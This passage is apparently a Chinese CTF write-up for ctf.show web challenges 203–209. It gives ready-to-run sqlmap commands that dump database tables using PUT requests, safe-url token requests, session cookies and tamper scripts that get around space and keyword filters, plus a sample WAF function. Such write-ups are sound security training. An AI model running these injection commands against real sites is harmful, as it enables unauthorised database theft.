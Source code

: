 ```sql
sqlmap -u http://e626647d-5cb2-4d05-800a-fbf7e74b952a.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --referer="http://e626647d-5cb2-4d05-800a-fbf7e74b952a.challenge.ctf.show/sqlmap.php" --batch -D ctfshow_web -T ctfshow_user -C pass --dump
```
--method=put 是以put方式提交数据
--headers="content-type:text/plain" 是指定提交方式，以免变成键值对put无法接收
## web204（sqlmap --cookie）
加上--cookie即可
## web205（sqlmap --safe-url）
观察发现在访问/api/index.php前，会访问一次/api/getToken.php
> --safe-url 设置在测试目标地址前访问的安全链接 
> --safe-freq 设置两次注入测试前访问安全链接的次数

```sql
sqlmap -u http://5b6df0bc-df17-4d42-ade2-d0c97d2929a4.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --referer="http://5b6df0bc-df17-4d42-ade2-d0c97d2929a4.challenge.ctf.show/sqlmap.php" --safe-url="http://5b6df0bc-df17-4d42-ade2-d0c97d2929a4.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=tako5u4s3isfemao7eu9h72r8o" --batch -D ctfshow_web -T ctfshow_flax --dump
```
## web206（sqlmap --safe-url）
需要闭合，同上
```sql
sqlmap -u http://561398b1-68e3-4976-8c87-ad558b762bb4.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --referer="http://561398b1-68e3-4976-8c87-ad558b762bb4.challenge.ctf.show/sqlmap.php" --safe-url="http://561398b1-68e3-4976-8c87-ad558b762bb4.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=tako5u4s3isfemao7eu9h72r8o" --batch -D ctfshow_web -T ctfshow_flaxc --dump
```
## web207（sqlmap --tamper space2comment）
开始使用sqlmap绕过过滤了，这个题过滤了空格，前面也说过，这里不躲赘述
```sql
sqlmap -u http://e8275a12-7b01-4ca9-abb1-234f680f4fb5.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://e8275a12-7b01-4ca9-abb1-234f680f4fb5.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=p6t1dc1tff53dqvuckatsmlnse" --referer="http://e8275a12-7b01-4ca9-abb1-234f680f4fb5.challenge.ctf.show/sqlmap.php" --tamper=space2comment.py -D ctfshow_web -T ctfshow_flaxca --dump
```
## web208（sqlmap --tamper space2comment）
过滤了小写的select，问题不大，sqlmap使用的是大写Orz
```sql
sqlmap -u http://a4ac5964-6598-492a-9a4c-a63931c35518.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://a4ac5964-6598-492a-9a4c-a63931c35518.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=p6t1dc1tff53dqvuckatsmlnse" --referer="http://a4ac5964-6598-492a-9a4c-a63931c35518.challenge.ctf.show/sqlmap.php" --tamper=space2comment.py -D ctfshow_web -T ctfshow_flaxcac --dump
```
## web209（sqlmap --tamper space20a）
```php
//对传入的参数进行了过滤
  function waf($str){
   //TODO 未完工
   return preg_match('/ |\*|\=/', $str);
  }
```
